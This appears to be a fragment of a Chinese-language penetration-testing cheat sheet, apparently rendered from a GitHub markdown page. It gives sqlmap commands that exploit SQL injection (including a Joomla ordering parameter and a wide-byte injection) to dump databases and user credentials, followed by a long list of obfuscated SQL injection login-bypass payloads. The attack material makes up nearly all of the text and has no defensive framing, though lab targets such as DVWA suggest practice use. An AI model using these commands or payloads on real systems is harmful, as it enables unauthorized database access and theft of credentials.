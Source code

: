 ```shell
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --dbs --batch
```

**宽字节注入**

```shell
sqlmap -u http://192.168.163.132/sqli/02.php?id=2 --tamper unmagicquotes -D iwebsec --dump
```

**post 方式测试**

```shell
sqlmap -r a.txt -p uname --technique=B --dbms=mysql -D dvwa -T users -C username,password --stop=1 --dump
# --where="username='admin'"
# --limit 1
```

## 5. 万能密码

单引号/双引号两种格式

```sql
'/**/or/**/'2'>'1
'/**/or/**/''='
'/**/UnIon/**/SeLect/**/1,1,1/**/from/**/admin/**/Where/**/''='
'/**/or/**/2>1#
admin'#
admin'--/**/
admin'/**/or/**/1=1#
admin'/**/or/**/1=1--/**/
admin'/**/or/**/'1'='1
'='
'/**/or/**/2>1--/**/
admin'/**/and/**/2/**/BeTween/**/1/**/and/**/3--/**/
admin'/**/and/**/2/**/BeTween/**/1/**/and/**/3#
admin'/*
'or/**/1=1/*
or/**/a"="a
"or/**/1=1--
or""="""
or="a'='a
"or1=1--
or=or"""
''or'='or'
')/**/or/**/('a'='a
'.).or.('.a.'='.a
'or/**/1=1
'or/**/1=1--
'or"="a'='a
'or'/**/'1'='1'
'or''='
'or''=''or''='
'or'='1'
'or'='or'
'or.'a.'='a
'or1=1--
1'or'1'='1
a'or'/**/1=1--
a'or'1=1--
or/**/'a'='a'
or/**/1=1--
or1=1--
'.).or.('.a.'='.a/**/
or/**/=/*
```
